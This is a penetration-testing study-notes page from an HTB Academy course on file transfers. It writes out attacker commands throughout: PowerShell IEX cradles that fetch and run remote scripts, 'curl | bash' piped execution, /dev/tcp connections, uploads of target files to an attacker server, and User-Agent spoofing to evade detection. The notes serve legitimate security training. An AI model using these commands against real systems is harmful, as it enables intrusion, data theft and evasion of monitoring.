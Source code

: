 ```yaml
---
layout: single
title:  "HTB Academy - File Transfers"
categories: 
  - OSCP Notes
tags:
  - htb-academy
toc: true
toc_label: "Contents"
toc_icon: "list"  # corresponding Font Awesome icon name (without fa prefix)
excerpt: ""
permalink: /posts/file-transfers-notes
author_profile: false
sidebar:
  nav: "navbar"
---
```


## Windows File Transfer

### Download files

If the file to transfer is not too large, we can simply `base64` encode the file contents, copy and paste the encoded string in the target and decode it into a file.

* File integrity can be verified using `md5` hash.
* To decode a file in PowerShell:
  `[IO.File]::WriteAllBytes("<filepath>",[Convert]::FromBase64String("<b64-encoded string>"))`

Alternatively, we can download files through HTTP/HTTPS/FTP, using `System.Net.WebClient`.

* Normal download - `(New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')`
* Asynchronous download - `(New-Object Net.WebClient).DownloadFileAsync('<Target File URL>','<Output File Name>')`

To run PowerShell scripts in-memory (fileless attack), use the `Invoke-Expression` cmdlet (or `IEX`).

* `IEX (New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')`

For web downloads, `wget` and `curl` are available as well.

* Note that `wget` may not be recognised. In this case, from PowerShell, use `Invoke-WebRequest -Uri <http url> -OutFile <outfile path>`

If certificates are not trusted, run `[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}`

If SMB is enabled, we can host an SMB server locally on our attack host, and download files from the target using the `copy` command in `cmd`.

* To host a server with the `CompData` share name: `sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/kali/Downloads/smb`
* Likewise for FTP and HTTP.

### Upload files

Similarly, `base64` encoding can be used. To encode a file in PowerShell: `[Convert]::ToBase64String((Get-Content -path "<filepath>" -Encoding byte))`

For web uploads, we can host a Python web server that allows uploads (using the `uploadserver` module). Once the server is alive, run the following PowerShell script:

```
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
Invoke-FileUpload -Uri http://<host ip>:<port>/upload -File <filepath>
```

Alternatively, create a `netcat` listener on our host, and `POST` the file encoded in `base64`: `Invoke-WebRequest -Uri http://<host ip>:<port>/ -Method POST -Body $b64`

If outbound SMB traffic is blocked, we can technically still run SMB over HTTP using `WebDav`. For this, we need to create a `WebDav` server on our host, then upload files from our target to the `WebDav` server using SMB.

Lastly, we can also upload to an FTP server using PowerShell:
`(New-Object Net.WebClient).UploadFile('ftp://<host ip>/ftp-hosts', '<filepath>')`

## Linux File Transfer

### Download files

Similarly, we can employ the `base64` encoding method, as well as using `cURL` and `wget` for web downloads.

If we wish to execute a fileless attack, we can pipe a downloaded script to our shell binary (similar to how we use `IEX` for PowerShell).

* `curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash`
* Similar methods can be used to run scripts for other languages (e.g., piping a `Python` script to the `Python` interpreter).

If `wget` or `curl` are unavailable, we can use the `/dev/tcp` device:

* Connect to host - `exec 3<>/dev/tcp/<host ip>/<port>`
* Send a `GET` request - `echo -e "GET <file> HTTP/1.1\n\n">&3`
* Print response - `cat <&3`

If SSH is enabled on the target, we can use `scp` to copy files.

### Upload files

As mentioned earlier, we can also start an upload server on our host, and `POST` data from the target:
`curl -X POST https://<host ip>/upload -F 'files=@/<filepath>' --insecure`

* Note the usage of `--insecure` option, as we are running a self-signed certificate on our upload server.

Alternatively, we can host a web server on the target instead, and download files from our target to our attack host. A web server can be hosted using various languages (like Python, Ruby or PHP). This is only possible if the target comes installed with an aforementioned language.

Lastly, `scp` can also be used for file uploads.

## Misc File Transfer Methods

### Netcat

* Create a `nc` listener on the target, and redirect output to a filename: `nc -lvp 8888 > <filename>`
* Then, from our host, connect to the target and redirect input to `nc`: `nc -q 0 <target ip> 8888 < <filename>`
* Note that this process goes both ways - we can listen on the host, and connect from the target.

If the target does not have `netcat` or `ncat`, we can use the `/dev/tcp` device. For example, to connect to our host: `cat < /dev/tcp/<host ip>/<port> > <filename>`

### WinRM

If port 5985 is open, and we have adequate permissions, we can use `WinRM` as well.

* Use the `Copy-Item` cmdlet to transfer files bidirectionally (similar to `scp`).

### RDP

We can mount a directory from our attack host to the target using `RDP`.

* If we are connecting from Linux, we can use `xfreerdp` or `rdesktop`.
* If we are connecting from Windows, we can use `mstsc.exe`.

## Encryption

**Windows**: Use the `Invoke-AESEncryption.ps1` script to encrypt files for transfer.
**Linux**: Use `openssl enc -aes256` to encrypt files for transfer.

For more secure web transfers over HTTP, we can set up an `Apache` or `Nginx` server instead of using the Python webserver.

## Living off the Land Binaries (LOLBins)

LOLBins are OS-native/preinstalled binaries which allow attackers to perform file transfers, as well as command execution and file access (past their intended purpose).

* For example, `openssl` on Linux allows us to host servers and send files "`netcat`-style". This is beyond the intended scope of the binary, which is to generate certificates and do encryption/decryption.
* Other binaries: `bitsadmin` and `certutil` on Windows.

Binary collections:

* **Windows**: LOLBAS
* **Linux**: GTFOBins

## File Transfer Detection

For HTTP, the `User-Agent` header string can allow us to detect the source of HTTP requests.

* This includes details like the function call used, binary/utility used etc.

To bypass this, we can modify our User Agent when making requests over HTTP. This can be changed to something legitimate, like Mozilla Firefox.

Alternatively, use LOLBins instead of transfer methods like `netcat`.
